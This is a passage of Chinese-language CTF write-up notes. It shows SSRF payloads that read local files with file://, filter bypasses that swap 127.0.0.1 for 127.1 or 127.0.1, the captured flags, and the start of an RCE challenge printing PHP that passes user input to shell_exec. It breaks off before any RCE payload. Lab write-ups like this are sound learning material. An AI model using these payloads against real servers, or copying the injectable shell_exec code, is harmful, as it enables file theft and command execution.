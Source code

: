 ```
POST /request
service=file:///flag.txt
```
![alt text](image-7.png)
拿到flag：shellmates{1T_W4S_4_qu1T3_3s4y_expl01tabL3_$$Rf}

- bugku nextGen 1
和上一题类似，但增加了一些过滤。必须要是 xxx://xxxxx/xxxxx 这种格式
尝试了一下
service=file://localhost/flag.txt
service=file://127.0.0.1/flag.txt
返回page not found，都被过滤了
常用替代
127.0.0.1 =
127.1 =
127.0.1
构造payload
```
service=file://127.1/flag.txt
service=file://127.0.1/flag.txt
```
拿到flag：shellmates{Y0u_d1D_1t_aG4iN_!!}

## 1.6 远程代码执行漏洞（RCE）
- bugku Whois
进入环境，按照示例输入php.net查询，得到一些文字，没有发现flag
观察浏览器地址栏，通过query.php接受host和query参数
```
http://82.157.146.43:11975/query.php?host=whois.verisign-grs.com&query=php.net
```
查看一下query.php
```
http://82.157.146.43:11975/query.php
```
```php
<?php

error_reporting(0);

$output = null;
$host_regex = "/^[0-9a-zA-Z][0-9a-zA-Z\.-]+$/";
$query_regex = "/^[0-9a-zA-Z\. ]+$/";

if (isset($_GET['query']) && isset($_GET['host']) && 
      is_string($_GET['query']) && is_string($_GET['host'])) {

  $query = $_GET['query'];
  $host = $_GET['host'];
  
  if ( !preg_match($host_regex, $host) || !preg_match($query_regex, $query) ) {
    $output = "Invalid query or whois host";
  } else {
    $output = shell_exec("/usr/bin/whois -h ${host} ${query}");
```